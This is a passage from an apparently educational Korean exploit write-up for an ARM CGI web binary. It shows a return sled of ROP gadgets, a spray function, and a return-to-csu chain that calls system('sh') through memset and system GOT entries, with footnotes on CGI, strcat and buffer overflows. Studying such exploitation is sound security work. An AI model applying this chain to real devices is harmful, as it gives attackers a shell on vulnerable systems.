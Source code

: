 

#### Return sled

Return sled를 이용하여 스프레이한 영역의 어느곳으로 `sp`, `pc`가 변조되어도 공격자의 ROP Payload가 실행되도록 합니다.

```
0x00010ca4: pop {r11, pc}
0x000108e0: pop {r4, r11, pc}
```

위의 두 가젯을 활용합니다.

```
      ...
|  0x00010ca4
|  0x00010ca4
|  0x000108e0
|  0x00010ca4 # r4
|  0x41414141 # r11
V  [ROP HERE] # pc
```

```python
def spray():
    # ...
	spray += purl32(sled_1) * (((SPRAY_LEN-len(rop)) // EADDR_LEN)-3)
    spray += purl32(sled_2) + purl32(sled_1) + "AAAA"
    spray += rop
    
    return spray
```



#### ROP

Return-to-csu를 활용합니다.

```python
def chain(func, r0, r1, r2):
    c = ''
    c += purl32(0x00000000) # r4
    c += purl32(func)       # [r5] => r3
    c += purl32(0x00000000) # r6
    c += purl32(r0)         # r7 => r0
    c += purl32(r1)         # r8 => r1
    c += purl32(r2)         # r9 => r2
    c += purl32(0x00000000) # r10
    c += purl32(csu_2)      # pc
    return c

def spray():
    #...
	# Return-to-csu.
    rop = purl32(csu_1)

    # Set bss:0x20 to get_val address.
    for i in range(4):
        addr = e.bss(0x20+i)
        value = e.symbols['get_val'] >> (i*8) & 0xff
        rop += chain(e.got['memset'], addr, value, 1)

    # get_val("t", bss:0x24, 2): returns "sh"
    rop += chain(e.bss(0x20), str_t, e.bss(0x24), 2) # get_val
    rop += chain(e.got['system'], e.bss(0x24), 0, 0)
    #...
```


[^`1]: [Wikipedia: 공용 게이트웨이 인터페이스](https://ko.wikipedia.org/wiki/공용_게이트웨이_인터페이스)
[^2]: https://www.lighttpd.net/
[^3]: [CGI Envrionment Variables](http://www.cgi101.com/book/ch3/text.html)
[^4]: [strcat](https://man7.org/linux/man-pages/man3/strcat.3.html)
[^5]: [Buffer overflow](https://ko.wikipedia.org/wiki/%EB%B2%84%ED%8D%BC_%EC%98%A4%EB%B2%84%ED%94%8C%EB%A1%9C)
[^6]: [Return oriented programming]([https://ko.wikipedia.org/wiki/%EB%B0%98%ED%99%98_%EC%A7%80%ED%96%A5%ED%98%95_%ED%94%84%EB%A1%9C%EA%B7%B8%EB%9E%98%EB%B0%8D](https://ko.wikipedia.org/wiki/반환_지향형_프로그래밍))